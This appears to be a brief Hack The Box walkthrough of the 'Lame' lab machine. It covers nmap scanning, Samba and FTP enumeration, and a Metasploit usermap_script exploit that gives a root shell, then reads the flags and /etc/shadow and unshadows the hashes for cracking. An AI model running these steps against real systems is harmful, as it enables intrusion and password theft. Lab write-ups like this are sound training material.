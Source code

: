 HTB - 2. Lame

1. `nmap -A -T4 -p- 10.10.10.3` takes 144 seconds, 21 (ftp) open with version `vsftpd 2.3.4` and anonymous login allowed, 22 (ssh) open with version `4.7p1 Debian 8ubuntu2`, 139 & 445 (samba) open with version 3.0.20-Debian (workgroup: WORKGROUP), 3632 (distccd v1) with version 4.2.4
2. Samba
	```
	smbclient -L \\\\10.10.10.3\\
	exit
	smbclient -L \\\\10.10.10.3\\tmp
	exit
	smbclient -L \\\\10.10.10.3\\opt
	exit
	smbclient -L \\\\10.10.10.3\\ADMIN$
	```
	Result: Dead end
3. FTP Check
	```
	ftp 10.10.10.3
	anonymous
	anonymous
	ls
	pwd
	```
	Result: In directory `/` which is empty
4. Search `samba 3.0.20-debian exploit`: https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script and [Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)](https://www.exploit-db.com/exploits/16320)
5. Metasploit Exploit
	```
	use exploit/multi/samba/usermap_script
	options
	set rhosts 10.10.10.3
	show targets
	exploit
	whoami
	hostname
	pwd
	ls
	updatedb
	locate root.txt
	locate user.txt
	cat /root/root.txt
	cat /home/makis/user.txt
	cat /etc/passwd
	cat /etc/shadow
	unshadow passwd shadow
	```
	Result: Shell popped and machine owned. Can try to crack passwords with `hashcat`.
6. Search `vsftpd 2.3.4 exploit`: https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor - This is a rapithole; don't continuously try if it doesn't work